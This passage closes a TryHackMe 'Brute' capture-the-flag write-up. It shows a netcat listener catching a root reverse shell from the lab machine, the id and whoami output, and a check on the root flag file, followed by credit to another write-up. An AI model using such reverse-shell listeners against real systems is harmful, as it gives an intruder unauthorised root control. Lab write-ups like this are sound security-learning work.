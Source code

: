 ```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 8888
Listening on 0.0.0.0 8888
Connection received on [REMOTE IP] 51282
root@brute:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@brute:~# whoami
whoami
root
```
And I got the root flag.
```
root@brute:~# wc -c root.txt
wc -c root.txt
34 root.txt
```
Thank you so much to Madfoxsec for the medium post in the ```Assistance``` section. 
## Assistance

I got some help and tips from https://medium.com/@madfoxsec/brute-thm-writeup-2d50f2f29fc3 to specifically look at MySQL. 

